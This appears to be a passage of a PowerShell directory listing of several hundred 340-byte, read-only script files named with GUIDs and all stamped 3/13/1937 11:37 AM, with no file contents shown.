-ar---        3/13/1937  11:37 AM            340 2f866614-c70a-4c04-bf18-d006e300cd35.ps1
-ar---        3/13/1937  11:37 AM            340 2f867c05-afe2-4809-8faa-14510f62ce13.ps1
-ar---        3/13/1937  11:37 AM            340 2f8ba5f3-8407-4631-ad44-7f07da1b8941.ps1
-ar---        3/13/1937  11:37 AM            340 2f94d549-091b-4aac-9e07-49f8dac9ddf6.ps1
-ar---        3/13/1937  11:37 AM            340 2fbb47e7-ce4d-4f0f-8075-fd25515e028c.ps1
-ar---        3/13/1937  11:37 AM            340 2fdef44f-49f3-418e-99cf-eff0dfab663e.ps1
-ar---        3/13/1937  11:37 AM            340 2fec8706-2a7b-4908-80ad-6ac44f305e6e.ps1
-ar---        3/13/1937  11:37 AM            340 30204868-54c4-45cc-922f-eaabde1411ea.ps1
-ar---        3/13/1937  11:37 AM            340 303c3f80-f494-4ff3-b563-45df8042e50a.ps1
-ar---        3/13/1937  11:37 AM            340 3040dc2a-7cc8-47ac-9bfc-7ba81816a387.ps1
-ar---        3/13/1937  11:37 AM            340 3082461e-9a52-48b3-874e-25ae81cd1341.ps1
-ar---        3/13/1937  11:37 AM            340 30b858c9-24a0-4a02-b4f6-ff361c1e6bdf.ps1
-ar---        3/13/1937  11:37 AM            340 30c37db3-3d25-45ad-a63b-4e693d0a21e2.ps1
-ar---        3/13/1937  11:37 AM            340 30c7cb81-f268-4417-bf2f-37ec4d1f6ae4.ps1
-ar---        3/13/1937  11:37 AM            340 31184669-7688-4844-a2ab-72aa9302f737.ps1
-ar---        3/13/1937  11:37 AM            340 311b99df-af1c-4b36-b317-63cfb52481d3.ps1
-ar---        3/13/1937  11:37 AM            340 312b2c68-1228-4260-a2e4-df1fd0b4997f.ps1
-ar---        3/13/1937  11:37 AM            340 3153efe2-18da-48dc-977e-1268c501031b.ps1
-ar---        3/13/1937  11:37 AM            340 315a5e30-b884-4f28-bb6d-36f2e63c0ad5.ps1
-ar---        3/13/1937  11:37 AM            340 316534ac-b791-4fea-958f-36f270973637.ps1
-ar---        3/13/1937  11:37 AM            340 3165a59d-1667-4698-8bf5-21ebfba6c8a2.ps1
-ar---        3/13/1937  11:37 AM            340 317c43b3-47c9-411b-8af9-0ceb3645449e.ps1
-ar---        3/13/1937  11:37 AM            340 319afdae-7f43-4e72-8717-7e5432857513.ps1
-ar---        3/13/1937  11:37 AM            340 31b4e796-892b-4bc5-85e5-837b3152e250.ps1
-ar---        3/13/1937  11:37 AM            340 31cfc3be-43cc-40a8-a0ad-8316de9ff97b.ps1
-ar---        3/13/1937  11:37 AM            340 31dc95ac-48b5-46a4-bb25-29e464f65f92.ps1
-ar---        3/13/1937  11:37 AM            340 31de33f9-0f8d-4f3f-8774-7396b5a15b90.ps1
-ar---        3/13/1937  11:37 AM            340 31e2ef06-3ebe-4a69-9466-31e734fbeddb.ps1
-ar---        3/13/1937  11:37 AM            340 31f8b649-bc32-4d04-948c-a96910c371a9.ps1
-ar---        3/13/1937  11:37 AM            340 31fcd7ad-e9af-4fcf-bbd3-56ffb1cca38b.ps1
-ar---        3/13/1937  11:37 AM            340 3237924c-5add-42f3-921e-41ffead7ef79.ps1
-ar---        3/13/1937  11:37 AM            340 324b18e0-caac-48ca-8cce-01fdcdded8ab.ps1
-ar---        3/13/1937  11:37 AM            340 329606c5-9bbe-4483-8f01-a7d7aa039b9f.ps1
-ar---        3/13/1937  11:37 AM            340 32b1dded-0266-49c7-a122-d163d4cc0735.ps1
-ar---        3/13/1937  11:37 AM            340 32d3cea4-4a00-4f0f-a0e6-8f1ae1c4d4f3.ps1
-ar---        3/13/1937  11:37 AM            340 32d6a4bd-512c-4933-b785-585f35b1774d.ps1
-ar---        3/13/1937  11:37 AM            340 332a80ff-a093-49d6-bb29-d7b1ca41cab8.ps1
-ar---        3/13/1937  11:37 AM            340 3330fbe2-0d23-4a34-a07c-13902ddae5ad.ps1
-ar---        3/13/1937  11:37 AM            340 333b5126-c097-4d50-856d-98c58dbeb1b2.ps1
-ar---        3/13/1937  11:37 AM            340 3352b9e5-abcb-4870-9a51-4d65097bff5a.ps1
-ar---        3/13/1937  11:37 AM            340 33530169-c1ed-405c-871f-46a414879782.ps1
-ar---        3/13/1937  11:37 AM            340 33702c85-f900-4b2f-a463-317542b4732f.ps1
-ar---        3/13/1937  11:37 AM            340 3388e021-ee38-4feb-b68f-f02b21441fb7.ps1
-ar---        3/13/1937  11:37 AM            340 33956f65-a13d-4c28-82a8-9499a12c1cd3.ps1
-ar---        3/13/1937  11:37 AM            340 339f3382-1033-44c5-918e-63c17f772466.ps1
-ar---        3/13/1937  11:37 AM            340 33a3c026-34ee-40fe-9551-72836ca843e2.ps1
-ar---        3/13/1937  11:37 AM            340 33b18405-8075-470c-b89e-ab1f56446bfd.ps1
-ar---        3/13/1937  11:37 AM            340 33bdc7bb-dcf9-4250-a9da-789198309f58.ps1
-ar---        3/13/1937  11:37 AM            340 33ecb3e3-0666-4b41-846c-56c4f0893d1f.ps1
-ar---        3/13/1937  11:37 AM            340 344ac330-d4f2-4184-b8e3-c3b6a8fbea1e.ps1
-ar---        3/13/1937  11:37 AM            340 3464e283-9aed-4359-9ecf-794792239e4b.ps1
-ar---        3/13/1937  11:37 AM            340 346b9b1d-e29e-471a-b568-ba309df4337f.ps1
-ar---        3/13/1937  11:37 AM            340 346dd0f5-32d5-4566-a576-41fdb4fd36d0.ps1
-ar---        3/13/1937  11:37 AM            340 34c1bb7c-e8c7-41ea-b85a-a2f72a6dc2cb.ps1
-ar---        3/13/1937  11:37 AM            340 34d8c4e7-f97e-4dae-b801-942648432588.ps1
-ar---        3/13/1937  11:37 AM            340 34dae9fe-fb2d-4d51-afad-7ec6c5ba65bb.ps1
-ar---        3/13/1937  11:37 AM            340 34e58d69-03c4-40de-a4ea-4dd42d21c503.ps1
-ar---        3/13/1937  11:37 AM            340 352c5015-1cb6-4d56-8c00-5ebec79a5888.ps1
-ar---        3/13/1937  11:37 AM            340 352dd4e7-9361-4d8d-9035-be83b779c389.ps1
-ar---        3/13/1937  11:37 AM            340 35cb10ef-ca49-4ac0-862c-f95d4784773e.ps1
-ar---        3/13/1937  11:37 AM            340 35f9ae0a-8be3-46aa-adca-6690c0257281.ps1
-ar---        3/13/1937  11:37 AM            340 365a9f41-96bf-40ce-85d5-e102d7bfb5fb.ps1
-ar---        3/13/1937  11:37 AM            340 3690faa2-f6df-48bc-b2d2-01bc6721ba89.ps1
-ar---        3/13/1937  11:37 AM            340 36b25b66-ab16-410b-a360-d870794d4c8d.ps1
-ar---        3/13/1937  11:37 AM            340 36ff7687-756d-4ee3-b0e5-153df52b1b2f.ps1
-ar---        3/13/1937  11:37 AM            340 3709b1b1-12aa-495d-90fe-94a1623f78ec.ps1
-ar---        3/13/1937  11:37 AM            340 371b3f4c-88f2-429a-abf5-0337c24dfca5.ps1
-ar---        3/13/1937  11:37 AM            340 377c2467-8687-4d95-91ce-710733b00100.ps1
-ar---        3/13/1937  11:37 AM            340 3786abf4-2f28-4c23-8529-94dbb0d59a36.ps1
-ar---        3/13/1937  11:37 AM            340 37b77c93-52a1-4d41-bb61-8fc39fd8d99d.ps1
-ar---        3/13/1937  11:37 AM            340 37e1f2c9-6690-42ef-9803-a9cecfc5c2b5.ps1
-ar---        3/13/1937  11:37 AM            340 38004216-afb3-4010-a723-547055977c4b.ps1
-ar---        3/13/1937  11:37 AM            340 3807dacb-db2a-4627-b2a3-123d048590e7.ps1
-ar---        3/13/1937  11:37 AM            340 3822dc3d-0d0f-480e-88f9-7d5ce85c1245.ps1
-ar---        3/13/1937  11:37 AM            340 3834bf6f-1da1-4ad3-8e69-e0ff864659b0.ps1
-ar---        3/13/1937  11:37 AM            340 3836f6f9-a39b-4b2d-9257-7ddbb5a07c7f.ps1
-ar---        3/13/1937  11:37 AM            340 384850c4-3bbe-4988-9b1a-f45fbbe7bb9a.ps1
-ar---        3/13/1937  11:37 AM            340 384a6a6f-8dc4-466e-baef-f4a2b253491a.ps1
-ar---        3/13/1937  11:37 AM            340 385f88f9-3d75-4072-a7c7-2ba711385ac0.ps1
-ar---        3/13/1937  11:37 AM            340 387b38db-e66d-49c4-b9c4-5472985d06b7.ps1
-ar---        3/13/1937  11:37 AM            340 387bd115-c11c-4991-bbb1-a640fff87482.ps1
-ar---        3/13/1937  11:37 AM            340 38cfd82d-ac81-4af4-9626-9fac46730146.ps1
-ar---        3/13/1937  11:37 AM            340 39025b51-81cf-462c-9952-8195fbbc1809.ps1
-ar---        3/13/1937  11:37 AM            340 39198a63-3d56-4fcf-8bc9-2876e3b70cb0.ps1
-ar---        3/13/1937  11:37 AM            340 392197cf-7d34-436d-8f6e-bbed9635299c.ps1
-ar---        3/13/1937  11:37 AM            340 39298b2a-a0d8-49c3-9e8d-ca6344b9c594.ps1
-ar---        3/13/1937  11:37 AM            340 39770e3c-19e0-4615-90e1-6771e98082f1.ps1
-ar---        3/13/1937  11:37 AM            340 399d8b81-20c4-4fb6-a5e3-1e3ff72bafb3.ps1
-ar---        3/13/1937  11:37 AM            340 39af247e-c66b-4515-be5b-9d0a2cf6c195.ps1
-ar---        3/13/1937  11:37 AM            340 39f375e1-b25b-4f2f-83f5-34c4647ed662.ps1
-ar---        3/13/1937  11:37 AM            340 39fc892f-d80b-412b-b98b-f1bc20a6e117.ps1
-ar---        3/13/1937  11:37 AM            340 3a0cf171-401e-4d74-b3de-eae9d3526c7d.ps1
-ar---        3/13/1937  11:37 AM            340 3a2299b2-a5d9-4940-9d0e-c076ee597449.ps1
-ar---        3/13/1937  11:37 AM            340 3a27657e-e60d-466f-8148-e4efdbb1513d.ps1
-ar---        3/13/1937  11:37 AM            340 3a2a7733-94d7-4fdc-bead-8167c278096f.ps1
-ar---        3/13/1937  11:37 AM            340 3a2a9d01-d5fd-483b-b89b-34b06cee046f.ps1
-ar---        3/13/1937  11:37 AM            340 3a52b589-8b1b-432d-9b17-0363e1f8e8f6.ps1
-ar---        3/13/1937  11:37 AM            340 3a978491-3518-49da-bcc8-dc0bc1ff537f.ps1
-ar---        3/13/1937  11:37 AM            340 3aac082b-3b12-4466-8093-c4bfc0e94d8c.ps1
-ar---        3/13/1937  11:37 AM            340 3aad586f-ebda-4e1e-a2b7-c201fe185a3c.ps1
-ar---        3/13/1937  11:37 AM            340 3ae9ccfa-bddb-4b77-9c30-0e15fa7507ab.ps1
-ar---        3/13/1937  11:37 AM            340 3b03f055-4b4e-47ae-8534-1533d67913bd.ps1
-ar---        3/13/1937  11:37 AM            340 3b152d10-30a0-49ec-8252-3768d7211f33.ps1
-ar---        3/13/1937  11:37 AM            340 3b2060a8-b4ca-410f-b8fc-15b5a33c0706.ps1
-ar---        3/13/1937  11:37 AM            340 3b3e5bb0-bd73-44a2-95b1-c0338d919e10.ps1
-ar---        3/13/1937  11:37 AM            340 3b5773a7-1bc3-4565-86fc-146ab0c8845e.ps1
-ar---        3/13/1937  11:37 AM            340 3b59b438-7af6-4f7f-8150-33fc2b3a91f0.ps1
-ar---        3/13/1937  11:37 AM            340 3b6ed55d-7d85-4054-86b8-b320d71b0040.ps1
-ar---        3/13/1937  11:37 AM            340 3b782440-1ca8-4c83-b656-0771cc71ff58.ps1
-ar---        3/13/1937  11:37 AM            340 3bac041b-6043-4ed9-a35f-14578af36fbb.ps1
-ar---        3/13/1937  11:37 AM            340 3bb0a618-4178-428f-a6e6-b2fb528637fc.ps1
-ar---        3/13/1937  11:37 AM            340 3bd20b83-fdf8-4a60-aaaf-6a696e22f775.ps1
-ar---        3/13/1937  11:37 AM            340 3bd4bb1d-8209-4d03-b7c4-2e23a49a6123.ps1
-ar---        3/13/1937  11:37 AM            340 3c134abe-3e2f-47ae-8cc3-51dbc503b3f9.ps1
-ar---        3/13/1937  11:37 AM            340 3c367522-0bbc-4637-8e48-0bd59a224388.ps1
-ar---        3/13/1937  11:37 AM            340 3c568c9c-d2fc-4624-a393-3dc5ddbcec7f.ps1
-ar---        3/13/1937  11:37 AM            340 3c822e41-3e7b-460a-9533-780f1c9f5925.ps1
-ar---        3/13/1937  11:37 AM            340 3c970823-eabb-499f-9920-1f1fe6cd5c17.ps1
-ar---        3/13/1937  11:37 AM            340 3d0459c4-6a38-4b93-b970-dd1da7032fbc.ps1
-ar---        3/13/1937  11:37 AM            340 3d109d7f-f20a-43a3-873f-5c9dd66a36a2.ps1
-ar---        3/13/1937  11:37 AM            340 3d264b31-c526-4b2b-b683-aaf3ff114f48.ps1
-ar---        3/13/1937  11:37 AM            340 3d40ba12-ee0f-4ba7-9cd5-15ec4064ce78.ps1
-ar---        3/13/1937  11:37 AM            340 3d5ba3cb-f7e0-4c13-9716-76c88e000fb8.ps1
-ar---        3/13/1937  11:37 AM            340 3d5c8c75-e40c-456d-8e3a-f9ab8a22b15a.ps1
-ar---        3/13/1937  11:37 AM            340 3d6ab6fc-b90a-4b6d-8f68-395869cfaaf3.ps1
-ar---        3/13/1937  11:37 AM            340 3d7babf3-21fa-4dba-ac73-6a4d261274c8.ps1
-ar---        3/13/1937  11:37 AM            340 3daab25c-532a-4b5c-9be2-a96b6bc06ed8.ps1
-ar---        3/13/1937  11:37 AM            340 3daaf1f1-2ede-4072-a9da-799fd21f9264.ps1
-ar---        3/13/1937  11:37 AM            340 3dd0340d-2cd5-4730-8e26-1bca35fd0287.ps1
-ar---        3/13/1937  11:37 AM            340 3dddf739-0938-4c4d-8c63-df016f893750.ps1
-ar---        3/13/1937  11:37 AM            340 3dde59f3-1d4a-4d36-96ea-4fd9ae3ac571.ps1
-ar---        3/13/1937  11:37 AM            340 3de78b46-45e6-4966-b13f-4ba8861958c6.ps1
-ar---        3/13/1937  11:37 AM            340 3e50e0cf-7e8c-4443-ae33-3a591fad23f5.ps1
-ar---        3/13/1937  11:37 AM            340 3e62c677-c211-40ed-84ae-fb157e1b8095.ps1
-ar---        3/13/1937  11:37 AM            340 3e711a2a-c002-4826-94c4-4ee09193e316.ps1
-ar---        3/13/1937  11:37 AM            340 3e8a3a21-369c-4580-af62-c7110a009aab.ps1
-ar---        3/13/1937  11:37 AM            340 3ebcd8f1-8b64-4ede-9f9a-3f9fb05592eb.ps1
-ar---        3/13/1937  11:37 AM            340 3ec61183-df55-4685-b034-493c3040aec3.ps1
-ar---        3/13/1937  11:37 AM            340 3f3a0274-f09e-472a-b3ce-e563b1c2ce16.ps1
-ar---        3/13/1937  11:37 AM            340 3f3e0955-ddd6-40f0-83ab-17069403dea4.ps1
-ar---        3/13/1937  11:37 AM            340 3f7b8b08-3254-42ee-9a27-9c2b3a2295a6.ps1
-ar---        3/13/1937  11:37 AM            340 3f89a7d3-a674-4fa1-ae79-137c57aa9174.ps1
-ar---        3/13/1937  11:37 AM            340 3f8b30db-9ced-4da0-a0e6-67471f7de941.ps1
-ar---        3/13/1937  11:37 AM            340 3f8d523c-e73f-4dd3-a10d-c721e4e12a3f.ps1
-ar---        3/13/1937  11:37 AM            340 3f937a93-b1bf-4b99-90a8-cfbdaa664d93.ps1
-ar---        3/13/1937  11:37 AM            340 3f9d0466-ff53-45d5-8ba9-bdabb39a1b11.ps1
-ar---        3/13/1937  11:37 AM            340 3fb7e824-311e-42b2-aab7-9cbae90a39f2.ps1
-ar---        3/13/1937  11:37 AM            340 3fc30403-2119-4acd-a5cc-56caa7f8edb6.ps1
-ar---        3/13/1937  11:37 AM            340 3fea3e1f-55dd-4eb4-88ae-52c13127f683.ps1
-ar---        3/13/1937  11:37 AM            340 3ff81e24-a676-4471-bcfa-45e1181aeefe.ps1
-ar---        3/13/1937  11:37 AM            340 400d9475-12fc-4476-8eba-bbe3c07cdaf9.ps1
-ar---        3/13/1937  11:37 AM            340 4030534d-727c-4233-a12b-798c4df015c0.ps1
-ar---        3/13/1937  11:37 AM            340 4046f616-9c80-4c3d-8a73-38013fc09fcf.ps1
-ar---        3/13/1937  11:37 AM            340 404a5acf-3f7b-4766-aa58-142d3ba3029e.ps1
-ar---        3/13/1937  11:37 AM            340 404e2287-4f42-4428-80b7-065194cbaa5a.ps1
-ar---        3/13/1937  11:37 AM            340 4055dc33-137f-41e1-8eff-389a30dafd49.ps1
-ar---        3/13/1937  11:37 AM            340 40561fa2-c8c3-4fa2-8a4a-6dfbe260ea95.ps1
-ar---        3/13/1937  11:37 AM            340 4077b386-3248-4b96-945b-39e4c8c2836c.ps1
-ar---        3/13/1937  11:37 AM            340 4090401a-2432-4d50-a89b-3a75cb080d66.ps1
-ar---        3/13/1937  11:37 AM            340 40e83bc2-99dd-444b-a680-163b11876762.ps1
-ar---        3/13/1937  11:37 AM            340 413900db-fc5d-49d2-afba-b91d35f1a22f.ps1
-ar---        3/13/1937  11:37 AM            340 4170b1ca-b913-4fba-84ae-2c937667b4cf.ps1
-ar---        3/13/1937  11:37 AM            340 41af63d0-a206-46cb-b68d-a904c07b558e.ps1
-ar---        3/13/1937  11:37 AM            340 42083cf7-fd24-4215-bc5b-a012f9987b4f.ps1
-ar---        3/13/1937  11:37 AM            340 421602f5-2274-422b-aeb0-4bd6c62fae17.ps1
-ar---        3/13/1937  11:37 AM            340 421666bc-4bea-4154-83cf-e48c86b44e02.ps1
-ar---        3/13/1937  11:37 AM            340 4216e465-1dfe-41e9-bede-b7014aa27b6c.ps1
-ar---        3/13/1937  11:37 AM            340 423126b3-ee6c-490c-a52e-eaf88c682e2d.ps1
-ar---        3/13/1937  11:37 AM            340 4236c7c2-3ae4-45de-8f8d-904c555f9f97.ps1
-ar---        3/13/1937  11:37 AM            340 4262acb4-aa1a-47d0-9268-0e46d1f5da83.ps1
-ar---        3/13/1937  11:37 AM            340 427dec76-e84b-4d40-8fee-135cb0373f10.ps1
-ar---        3/13/1937  11:37 AM            340 428f0e32-2210-4bc4-87bf-8d81fb840eb3.ps1
-ar---        3/13/1937  11:37 AM            340 42bb3d29-9d60-4eb8-b087-921742a3703b.ps1
-ar---        3/13/1937  11:37 AM            340 42bb99d7-fa9d-4193-8ace-8bf33ee43a8f.ps1
-ar---        3/13/1937  11:37 AM            340 42c652cf-c4c0-420a-8be8-0031608bdf49.ps1
-ar---        3/13/1937  11:37 AM            340 42e87e9c-aec0-42bf-a47a-582ba379138b.ps1
-ar---        3/13/1937  11:37 AM            340 437e343e-6a38-470e-b8f1-e2153ccef873.ps1
-ar---        3/13/1937  11:37 AM            340 43c500bf-2ea8-4342-bde5-6b0c33f62875.ps1
-ar---        3/13/1937  11:37 AM            340 43d73b1a-f960-4583-a52a-9ecefed652a8.ps1
-ar---        3/13/1937  11:37 AM            340 43e49360-aab0-4aea-b4b9-c24522c94dc2.ps1
-ar---        3/13/1937  11:37 AM            340 44032980-b103-4a01-bd81-a5a19e48f18a.ps1
-ar---        3/13/1937  11:37 AM            340 441aa7b7-ebf2-4a2e-bd7b-4878c69e45db.ps1
-ar---        3/13/1937  11:37 AM            340 441d2245-0bbe-44c3-8d9f-d6ceb2eb74eb.ps1
-ar---        3/13/1937  11:37 AM            340 44261128-40b4-4ae9-824b-42e7f711a19d.ps1
-ar---        3/13/1937  11:37 AM            340 44272a8e-826e-46f3-a307-7773f1103236.ps1
-ar---        3/13/1937  11:37 AM            340 44495dbd-7c25-45cc-ad67-5d43f5a44400.ps1
-ar---        3/13/1937  11:37 AM            340 446fd301-aa6f-419e-a804-dd3cf7717f3e.ps1
-ar---        3/13/1937  11:37 AM            340 44acc278-fd68-4497-9f26-3edcd4cc8367.ps1
-ar---        3/13/1937  11:37 AM            340 44bd54f1-2eb9-461a-b527-9ffe6fbba44d.ps1
-ar---        3/13/1937  11:37 AM            340 44c08bcf-dff9-4bf7-83f7-3bf519305dd9.ps1
-ar---        3/13/1937  11:37 AM            340 44cde298-b673-4132-98c1-cc7803319f22.ps1
-ar---        3/13/1937  11:37 AM            340 44da0919-bc19-4169-9d4d-789f13b30358.ps1
-ar---        3/13/1937  11:37 AM            340 45076081-7904-4de2-8e38-603d96c8000d.ps1
-ar---        3/13/1937  11:37 AM            340 45076567-3abb-4e67-bd31-4567fc649133.ps1
-ar---        3/13/1937  11:37 AM            340 450cb080-48ce-4d4a-992a-532888c49d07.ps1
-ar---        3/13/1937  11:37 AM            340 451658fa-6c62-42b6-a224-d5071cd849c5.ps1
-ar---        3/13/1937  11:37 AM            340 451b2b38-0d80-4b48-9be2-160efc749320.ps1
-ar---        3/13/1937  11:37 AM            340 4554e2be-5672-4ad1-ab7f-7d9f0f08cb69.ps1
-ar---        3/13/1937  11:37 AM            340 45574551-87e2-443e-a332-2121c4c81b71.ps1
-ar---        3/13/1937  11:37 AM            340 455e7ea4-de61-4c1f-86f4-d8cda31d4075.ps1
-ar---        3/13/1937  11:37 AM            340 45788425-286d-4d31-ae62-6d3880792421.ps1
-ar---        3/13/1937  11:37 AM            340 4586ca05-4794-43e0-94ce-02aa05a26968.ps1
-ar---        3/13/1937  11:37 AM            340 45a6cef9-0283-46b3-b02d-304e93c9ea92.ps1
-ar---        3/13/1937  11:37 AM            340 45f719f9-37ef-4899-8008-ffdfa7d3ee2a.ps1
-ar---        3/13/1937  11:37 AM            340 4603a68d-b97c-4a2a-bdce-c5cc010d2c4e.ps1
-ar---        3/13/1937  11:37 AM            340 4696dc1e-32af-4314-ac26-63e62da35a80.ps1
-ar---        3/13/1937  11:37 AM            340 46c6a3b5-9086-4580-bde6-a0e34de4f0e8.ps1
-ar---        3/13/1937  11:37 AM            340 46cea31e-39d6-42c9-83c4-edc48afdbf42.ps1
-ar---        3/13/1937  11:37 AM            340 4746e988-92b8-45ec-a410-e4acdf08fe1a.ps1
-ar---        3/13/1937  11:37 AM            340 479e0ebf-9cf0-4665-a667-72ba0510b1dd.ps1
-ar---        3/13/1937  11:37 AM            340 47b5b664-b5c8-4883-a274-2dade2010973.ps1
-ar---        3/13/1937  11:37 AM            340 47bb39f5-8d0e-463f-858a-ad4448564e63.ps1
-ar---        3/13/1937  11:37 AM            340 47be8934-549f-4711-bbcd-6ebd76b4eb75.ps1
-ar---        3/13/1937  11:37 AM            340 47d8b99f-f559-412f-af90-f3aa7ce56b4f.ps1
-ar---        3/13/1937  11:37 AM            340 48033fe4-771d-4de0-9baa-dcecced9fd61.ps1
-ar---        3/13/1937  11:37 AM            340 48710a83-b504-4d4f-95bb-b9dad896633d.ps1
-ar---        3/13/1937  11:37 AM            340 4878bb17-9a4a-4eae-92d1-d700e0db08bd.ps1
-ar---        3/13/1937  11:37 AM            340 489116a9-fd41-4014-afd2-12091780ef72.ps1
-ar---        3/13/1937  11:37 AM            340 4893ebb3-e9b7-43cd-8867-9a5d4255da7c.ps1
-ar---        3/13/1937  11:37 AM            340 48a15489-ecc6-4b8d-97bb-fb21dd069494.ps1
-ar---        3/13/1937  11:37 AM            340 48a1818f-fb96-4753-bd35-319d66ff8f8e.ps1
-ar---        3/13/1937  11:37 AM            340 48a48e57-b09a-4f7c-af50-760e5fe64262.ps1
-ar---        3/13/1937  11:37 AM            340 48e6da3d-28a4-4109-a40a-ae312da84ded.ps1
-ar---        3/13/1937  11:37 AM            340 49259283-f0de-42c2-ab87-33eaf4a6f6ed.ps1
-ar---        3/13/1937  11:37 AM            340 493aa2ac-11d0-4e43-a9a9-7081fc4e83fc.ps1
-ar---        3/13/1937  11:37 AM            340 4971a686-52e0-4978-9c3a-fe868c4ad0ba.ps1
-ar---        3/13/1937  11:37 AM            340 49909a72-0a80-4afd-92af-1508e5ecdc59.ps1
-ar---        3/13/1937  11:37 AM            340 49ae56f3-dd75-4621-928d-c606233cb8ee.ps1
-ar---        3/13/1937  11:37 AM            340 49c250ba-3311-481e-8a4b-7b9b286fbe5b.ps1
-ar---        3/13/1937  11:37 AM            340 49e9e892-788d-4fc7-ad75-fa1de09420a9.ps1
-ar---        3/13/1937  11:37 AM            340 49f9a7fc-4cc4-4597-9cd2-b6776497af7a.ps1
-ar---        3/13/1937  11:37 AM            340 49fb87fc-6ab1-4575-bd85-dfc3a3c8a325.ps1
-ar---        3/13/1937  11:37 AM            340 4a2973d3-44a0-4211-9523-c4ef1cb3fbfd.ps1
-ar---        3/13/1937  11:37 AM            340 4a2abfca-dd8d-45ed-8aef-72a26f320b42.ps1
-ar---        3/13/1937  11:37 AM            340 4a4d755c-1673-4862-897d-323f5a73f28d.ps1
-ar---        3/13/1937  11:37 AM            340 4a5831c9-dd96-45b4-a876-f6f56520b50d.ps1
-ar---        3/13/1937  11:37 AM            340 4a61855c-9d99-44cc-8fea-96f45497f02a.ps1
-ar---        3/13/1937  11:37 AM            340 4aac8eb0-227d-479f-ae24-c0bf0844ccc4.ps1
-ar---        3/13/1937  11:37 AM            340 4aadcbd7-9624-433b-8107-28d94937676d.ps1
-ar---        3/13/1937  11:37 AM            340 4afb35da-d966-4b88-bb79-75867bbbeedb.ps1
-ar---        3/13/1937  11:37 AM            340 4b36b1ff-8c18-4b96-a76c-50f245278198.ps1
-ar---        3/13/1937  11:37 AM            340 4b691dc8-eabf-448d-9b8b-2bf6c7be11be.ps1
-ar---        3/13/1937  11:37 AM            340 4b9f20d2-6b06-411c-9505-dc021f89523a.ps1
-ar---        3/13/1937  11:37 AM            340 4ba1bf51-9eba-429c-a1c0-68069a3dc990.ps1
-ar---        3/13/1937  11:37 AM            340 4bc237ab-a99f-491d-9239-314f9f8b5523.ps1
-ar---        3/13/1937  11:37 AM            340 4beafce9-8ea3-4950-8484-3a1839aaec32.ps1
-ar---        3/13/1937  11:37 AM            340 4bf4c2f9-eaf1-4337-b2fe-11ddfa862125.ps1
-ar---        3/13/1937  11:37 AM            340 4c03e6e4-1418-457c-98f6-c87af2baed05.ps1
-ar---        3/13/1937  11:37 AM            340 4c03efa7-36e5-4858-9646-43993a3e6b73.ps1
-ar---        3/13/1937  11:37 AM            340 4c368c2b-296c-47b6-8af7-170b5ab3eeb0.ps1
-ar---        3/13/1937  11:37 AM            340 4c59d664-eb51-4095-ae3b-aae8f63f0e65.ps1
-ar---        3/13/1937  11:37 AM            340 4c88230f-9de2-4d3c-b974-04d165d8dd34.ps1
-ar---        3/13/1937  11:37 AM            340 4c8a0e3c-b98d-477d-8cc0-0d8ffe7f3b2c.ps1
-ar---        3/13/1937  11:37 AM            340 4c922907-d8f0-47ec-81f5-878230b02289.ps1
-ar---        3/13/1937  11:37 AM            340 4ca69261-c8a3-4694-92e6-434f2df1da55.ps1
-ar---        3/13/1937  11:37 AM            340 4cc9394f-620a-44f7-b25b-85858828c3a5.ps1
-ar---        3/13/1937  11:37 AM            340 4cd26b92-38b1-4e59-a25d-ce45c78e0193.ps1
-ar---        3/13/1937  11:37 AM            340 4d03bb2e-acb7-4f02-8c67-bb4d49c43763.ps1
-ar---        3/13/1937  11:37 AM            340 4d040165-bb42-4473-b33d-0e138c2e3fc2.ps1
-ar---        3/13/1937  11:37 AM            340 4d12db71-b11f-41a4-8d8d-8ebfc5f60dab.ps1
-ar---        3/13/1937  11:37 AM            340 4d331fd1-d4ac-46ea-a8f1-bf312dfddb1f.ps1
-ar---        3/13/1937  11:37 AM            340 4d3ea5a3-a1ab-4169-bd32-e90e987fed9b.ps1
-ar---        3/13/1937  11:37 AM            340 4d4fa28c-a9d4-4336-8a37-2b002d8f1f39.ps1
-ar---        3/13/1937  11:37 AM            340 4d5853db-b97d-4f87-8eaf-97ae3e710a3e.ps1
-ar---        3/13/1937  11:37 AM            340 4d62d5c0-f318-4153-9c62-04bf9a8b392f.ps1
-ar---        3/13/1937  11:37 AM            340 4d6b7af5-c783-41e8-8009-4e74b394790a.ps1
-ar---        3/13/1937  11:37 AM            340 4dc547a5-b5c1-4862-893d-862dd4116b83.ps1
-ar---        3/13/1937  11:37 AM            340 4dcbcf6b-ff87-46b5-9929-f125ea2b335c.ps1
-ar---        3/13/1937  11:37 AM            340 4de76ad3-7d13-4ac7-9c08-2f6b047bbbee.ps1
-ar---        3/13/1937  11:37 AM            340 4de893db-a368-428c-9b02-3f6e6e6679cf.ps1
-ar---        3/13/1937  11:37 AM            340 4df34397-c42c-44a3-ad92-482f03d0bcd1.ps1
-ar---        3/13/1937  11:37 AM            340 4dfd564a-74b2-4d69-9091-b358cb64edb2.ps1
-ar---        3/13/1937  11:37 AM            340 4e008173-26bb-4c98-9a22-1f43a16be206.ps1
-ar---        3/13/1937  11:37 AM            340 4e1746e6-1617-4824-b0ce-58eb0ff33328.ps1
-ar---        3/13/1937  11:37 AM            340 4e56410a-f171-403c-8e8f-be95a904a184.ps1
-ar---        3/13/1937  11:37 AM            340 4ef2d806-a1ee-40ac-86a2-eda1cee3be12.ps1
-ar---        3/13/1937  11:37 AM            340 4f03f905-b968-4e5e-af70-6cf1562aba94.ps1
-ar---        3/13/1937  11:37 AM            340 4f0a3d6a-c6f2-4bcc-ae4d-f353c037d9be.ps1
-ar---        3/13/1937  11:37 AM            340 4f1765bc-a039-419e-bd05-5bc5510b50bb.ps1
-ar---        3/13/1937  11:37 AM            340 4f37523f-70cd-4dd7-badc-38ffd8292be5.ps1
-ar---        3/13/1937  11:37 AM            340 4fc367fd-8628-4543-bf2a-2bd6a61c0eb3.ps1
-ar---        3/13/1937  11:37 AM            340 4fee3783-f996-47cf-8295-6bdde8fa8abd.ps1
-ar---        3/13/1937  11:37 AM            340 4ffa6663-270a-4b40-932e-6b6b84229bd7.ps1
-ar---        3/13/1937  11:37 AM            340 50431a02-f6d5-46eb-b56e-9d23c2be0211.ps1
-ar---        3/13/1937  11:37 AM            340 504ed6ac-7cfd-4ea5-bf4a-ffb8c5a15714.ps1
-ar---        3/13/1937  11:37 AM            340 510eefeb-69c1-4b01-819a-3b27e7436dae.ps1
-ar---        3/13/1937  11:37 AM            340 51194084-ddde-497f-88c6-efe1bcf961b9.ps1
-ar---        3/13/1937  11:37 AM            340 512c5353-2c85-401a-8ca2-f2e69e14528b.ps1
